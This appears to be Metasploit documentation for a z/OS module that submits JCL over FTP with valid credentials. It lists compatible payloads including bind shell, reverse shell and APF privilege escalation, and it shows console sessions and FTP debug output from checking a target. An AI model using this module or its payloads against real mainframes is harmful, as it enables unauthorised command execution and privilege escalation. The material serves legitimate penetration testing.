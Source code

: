 z/OS JCL authorized FTP-base command execution - hints & tips

In order to use this exploit, you must have valid credentials on the target z/OS system.  The credentials must have access to upload files via FTP.  If in doubt, use the check function of the exploit.

## Vulnerable Application

This exploit was tested on the ftp daemons for z/OS version 1.13 / 2.1

## Payloads

If the exploit works, any JCL the user has rights to submit can be submitted.

See cmd type payloads under mainframe with jcl in the payload name, e.g.:

```
msf exploit(ftp_jcl_creds) > show payloads

Compatible Payloads
===================

   Name                             Disclosure Date  Rank    Description
   ----                             ---------------  ----    -----------
   cmd/mainframe/apf_privesc_jcl                     normal  JCL to escalate privilages via APF LIB
   cmd/mainframe/bind_shell_jcl                      normal  Z/OS (MVS) Command Shell, Bind TCP
   cmd/mainframe/generic_jcl                         normal  Generic JCL Test for Mainframe Exploits
   cmd/mainframe/reverse_shell_jcl                   normal  Z/OS (MVS) Command Shell, Reverse TCP
```

## Verification Steps

A successful check of the exploit will look like this:

```
msf exploit(ftp_jcl_creds) > set FTPUSER ftptest
FTPUSER => ftptest
msf exploit(ftp_jcl_creds) > set FTPPASS password
FTPPASS => password
msf exploit(ftp_jcl_creds) > set RHOST 10.10.10.1
RHOST => 10.10.10.1
msf exploit(ftp_jcl_creds) > info

       Name: FTP JCL Execution
     Module: exploit/mainframe/ftp/ftp_jcl_creds
   Platform: Mainframe
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2013-05-12

Available targets:
  Id  Name
  --  ----
  0   auto

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  FTPPASS  password         no        The password for the specified username
  FTPUSER  ftptest          no        The username to authenticate as
  RHOST    10.10.10.1     yes       The target address
  RPORT    21               yes       The target port
  SLEEP    5                no        Time to wait before checking if job has completed.

Payload information:

Description:
  Submit JCL to z/OS via FTP and SITE FILE=JES. This exploit requires
  valid credentials on the target system

msf exploit(ftp_jcl_creds) > check

[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```


## Debugging

If the exploit or check is not working, turn on the VERBOSE and FTPDEBUG settings of the exploit and run.
The output should look similar to the below, on a vulnerable system.

```
msf exploit(ftp_jcl_creds) > set FTPDEBUG true
FTPDEBUG => true
msf exploit(ftp_jcl_creds) > set VERBOSE true
VERBOSE => true
msf exploit(ftp_jcl_creds) > check

[*] 10.10.10.1:21 - Connecting to FTP server 10.10.10.1:21...
[*] 10.10.10.1:21 - FTP recv: "220-FTPD1 IBM FTP CS V2R1 at ZOS.EXAMPLE.COM, 16:52:31 on 2016-04-27.\r\n220 Connection will close if idle for more than 5 minutes.\r\n"
[*] 10.10.10.1:21 - Connected to target FTP server.
[*] 10.10.10.1:21 - Authenticating as ftptest with password password...
[*] 10.10.10.1:21 - FTP send: "USER ftptest\r\n"
[*] 10.10.10.1:21 - FTP recv: "331 Send password please.\r\n"
[*] 10.10.10.1:21 - Sending password...
[*] 10.10.10.1:21 - FTP send: "PASS password\r\n"
[*] 10.10.10.1:21 - FTP recv: "230 FTPTEST is logged on.  Working directory is \"FTPTEST.\".\r\n"
[+] 10.10.10.1:21 - Successfully connected to FTP server.
[*] 10.10.10.1:21 - FTP send: "site file=jes\r\n"
[*] 10.10.10.1:21 - FTP recv: "200 SITE command was accepted\r\n"
[*] 10.10.10.1:21 - Found IBM z/OS Banner and JES commands accepted
[+] The target is vulnerable.
msf exploit(ftp_jcl_creds) >
```

## Notes

The job run will leave a joblog for the credentials used.   
